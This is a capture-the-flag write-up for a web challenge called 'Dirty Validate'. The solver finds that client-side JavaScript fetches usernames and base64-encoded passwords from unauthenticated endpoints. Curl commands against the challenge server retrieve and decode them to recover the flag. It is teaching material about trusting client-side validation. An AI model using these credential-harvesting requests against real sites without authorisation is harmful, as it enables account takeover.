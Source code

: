 # Dirty Validate
Web

## Challenge 

To keep my server from doing a lot of work, I made javascript do the heavy lifting of checking a user's password

https://challenges.neverlanctf.com:1135

## Solution

We see the inline javascript validator function

	// make an ajax request to get the expected username
    $.ajax('webhooks/get_username.php',{})

Likewise, for the password 
		
	// make an ajax request to get the expected password for the given username
    $.ajax('webhooks/get_password.php?user='+encodeURIComponent($('#name').val()),{})

So retrieving it all...

	$ curl https://challenges.neverlanctf.com:1135/webhooks/get_username.php
	{"usernames": ["AdamsFamily","Mr. Clean","Dr. Whom","JimmyOneShoe"]}
	
	$ curl https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=AdamsFamily
	VHJ5IGEgZGlmZmVyZW50IHVzZXI=

	$ curl -s https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=Mr.%20Clean
	  | base64 -D
	not this one either...

	$ curl -s https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=AdamsFamily
	  | base64 -D
	Try a different user

	$ curl -s https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=JimmyOneShoe
	  | base64 -D
	Wrong user
	$ curl -s https://challenges.neverlanctf.com:1135/webhooks/get_password.php?user=Dr.%20Whom
	  | base64 -D
	flag{D0n't_7rus7_JS}

## Flag

	flag{D0n't_7rus7_JS}
